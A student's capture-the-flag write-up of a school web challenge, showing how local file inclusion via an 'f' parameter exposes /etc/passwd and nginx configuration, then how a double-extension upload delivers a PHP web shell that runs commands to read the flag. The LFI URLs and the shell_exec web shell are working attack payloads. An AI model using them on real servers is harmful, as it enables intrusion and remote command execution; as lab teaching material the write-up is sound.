





# PHP include Write Up

This is my school CTF challenge

## Web first look:



Our task is clear, when we deal with a file upload, we should try to search directory for the file upload,

after running the

```bash
dirsearch -u http://10.214.160.13:10001
```



I retrieved some directory from the website such as **file.php** and **flag.php** but currently two of them dont contain any use yet

Looking at the link format I suggest the website might be vulnurable to **Local File Inclusion**: 

```apl
http://10.214.160.13:10001/index.php?f=/etc/passwd
```

the output :

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false nginx:x:104:107:nginx user,,,:/nonexistent:/bin/false
```

Next I tried checking the nginx configuration:

```apl
http://10.214.160.13:10001/index.php?f=/etc/nginx/nginx.conf
```

I retrieved :

```
user nginx; worker_processes 1; error_log /var/log/nginx/error.log warn; pid /var/run/nginx.pid; events { worker_connections 1024; } http { include /etc/nginx/mime.types; default_type application/octet-stream; log_format main '$remote_addr - $remote_user [$time_local] "$request" ' '$status $body_bytes_sent "$http_referer" ' '"$http_user_agent" "$http_x_forwarded_for"'; access_log /var/log/nginx/access.log main; sendfile on; #tcp_nopush on; keepalive_timeout 65; #gzip on; include /etc/nginx/conf.d/*.conf; }
```


By checking the mime.type

```apl
http://10.214.160.13:10001/index.php?f=/etc/nginx/mime.types
```

retrieved :

```
types { text/html html htm shtml; text/css css; text/xml xml; image/gif gif; image/jpeg jpeg jpg; application/javascript js; application/atom+xml atom; application/rss+xml rss; text/mathml mml; text/plain txt; text/vnd.sun.j2me.app-descriptor jad; text/vnd.wap.wml wml; text/x-component htc; image/png png; image/tiff tif tiff; image/vnd.wap.wbmp wbmp; image/x-icon ico; image/x-jng jng; image/x-ms-bmp bmp; image/svg+xml svg svgz; image/webp webp; application/font-woff woff; application/java-archive jar war ear; application/json json; application/mac-binhex40 hqx; application/msword doc; application/pdf pdf; application/postscript ps eps ai; application/rtf rtf; application/vnd.apple.mpegurl m3u8; application/vnd.ms-excel xls; application/vnd.ms-fontobject eot; application/vnd.ms-powerpoint ppt; application/vnd.wap.wmlc wmlc; application/vnd.google-earth.kml+xml kml; application/vnd.google-earth.kmz kmz; application/x-7z-compressed 7z; application/x-cocoa cco; application/x-java-archive-diff jardiff; application/x-java-jnlp-file jnlp; application/x-makeself run; application/x-perl pl pm; application/x-pilot prc pdb; application/x-rar-compressed rar; application/x-redhat-package-manager rpm; application/x-sea sea; application/x-shockwave-flash swf; application/x-stuffit sit; application/x-tcl tcl tk; application/x-x509-ca-cert der pem crt; application/x-xpinstall xpi; application/xhtml+xml xhtml; application/xspf+xml xspf; application/zip zip; application/octet-stream bin exe dll; application/octet-stream deb; application/octet-stream dmg; application/octet-stream iso img; application/octet-stream msi msp msm; application/vnd.openxmlformats-officedocument.wordprocessingml.document docx; application/vnd.openxmlformats-officedocument.spreadsheetml.sheet xlsx; application/vnd.openxmlformats-officedocument.presentationml.presentation pptx; audio/midi mid midi kar; audio/mpeg mp3; audio/ogg ogg; audio/x-m4a m4a; audio/x-realaudio ra; video/3gpp 3gpp 3gp; video/mp2t ts; video/mp4 mp4; video/mpeg mpeg mpg; video/quicktime mov; video/webm webm; video/x-flv flv; video/x-m4v m4v; video/x-mng mng; video/x-ms-asf asx asf; video/x-ms-wmv wmv; video/x-msvideo avi; }
```

### From the mime.types the key points are :

Files are are served with specific MIME types based on their extensions

* `.php` files are typically served as `text/html` but are processed as PHP
* `.jpg`, `.jpeg`, `.png`, `.gif` are served as image types
* `.exe`, `.dll`, `.bin` are served as `application/octet-stream`, meaning they are treated as binary data

After seing the mime types I tried to upload an image file (.png)

and succesfully uploaded it: 



the image showed up after uploading

since the .php / .phtml / .html / .txt / etc don't work and only takes us to the file.php.

I figure it out to use double extention trojan so I tried injecting

```php
<?php echo "PHP execution confirmed!"; ?>
```

into a file named ***test.php.png***

and by seing the url format, I can conclude that the url has vulnurable parameter and that is the **f**

```
http://10.214.160.13:10001/index.php?f=upload.php
```

after acessing the malicious double extention trojan horse through the vulnurable parameter **f**

```
http://10.214.160.13:10001/index.php?f=upload/20240911920984.png
```


after confirming the injected php, next we upload a cmd to operate remote code control **RCE**

```php
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
}
?>
```

and give it also a double extention for example : final.php.png

and edit after uploading it try calling the cmd like this :

```
http://10.214.160.13:10001/index.php?f=upload/20240911418852.png&cmd=ls
```



and it listed all the .php file in the directory, next we **cat** the flag.php file and inspect the element inside it

```
http://10.214.160.13:10001/index.php?f=upload/20240911418852.png&cmd=cat%20flag.php
```



and we receive the flag contained inside it

Flag : **AAA{m310dy_1s_wAitinG_4_y0u_h3r3_qq_qun_~~~}** ~~ for privacy purpose
